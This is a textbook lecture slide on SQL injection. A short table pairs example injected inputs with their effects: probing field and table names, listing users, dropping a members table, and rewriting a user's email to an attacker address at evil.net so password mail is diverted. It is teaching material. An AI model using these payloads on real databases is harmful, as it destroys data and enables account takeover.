

# Injection Attacks (4 of 4)
| SQL injection statement | Result |
| --- | --- |
| whatever’ AND email is NULL;-- | Determine the names of different fields in the database |
| whatever’ AND 1=(SELECT COUNT(\*)FROM tabname);- | Discover the name of the table |
| whatever’ OR full name LIKE Mia | Find specific users |
| whatever’; DROP TABLE members; -- | Erase the database table |
| whatever’; UPDATE members SET email= ‘attacker-email@evil.net’ WHERE email = ‘Mia@good.com’; | Mail password to attacker’s email account |
© 2018 Cengage. All Rights Reserved. May not be copied, scanned, or duplicated, in whole or in part, except for use as permitted in a license distributed with a certain product or service or otherwise on a password-protected website for classroom use.